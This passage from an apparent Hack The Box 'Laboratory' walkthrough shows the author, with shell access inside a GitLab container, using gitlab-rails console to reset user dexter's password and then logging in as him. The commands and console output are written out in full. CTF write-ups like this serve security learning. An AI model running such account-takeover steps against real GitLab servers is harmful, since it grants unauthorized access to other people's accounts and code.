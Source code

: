 ### Overwriting GitLab password

As we are in a Docker-container, we do not have a lot of interesting data. Let us try to access Dexter's GitHub profile instead. As we do not know the password of Dexter, let us overwrite it using gitlab-rails console (as explained [here](https://docs.gitlab.com/12.10/ee/security/reset_root_password.html)). 

```bash
git@git:~/gitlab-rails/working$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)
irb(main):001:0> user = User.find_by(username: 'dexter')
=> #<User id:1 @dexter>
irb(main):002:0> user.password = 'Chronos@htb!'
=> "Chronos@htb!"
irb(main):003:0> user.save
Enqueued ActionMailer::DeliveryJob (Job ID: 835ea5c1-481b-473c-946e-989c9aa4ce9f) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007f089d881768 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
```

Now that we have changed Dexter's password, let us login on GitLab.

![Login as dexter](/assets/htb/Laboratory/https/git-login.png)

After login, we get shown Dexter's projects.

![Dexter's projects](/assets/htb/Laboratory/https/git-repos.png)
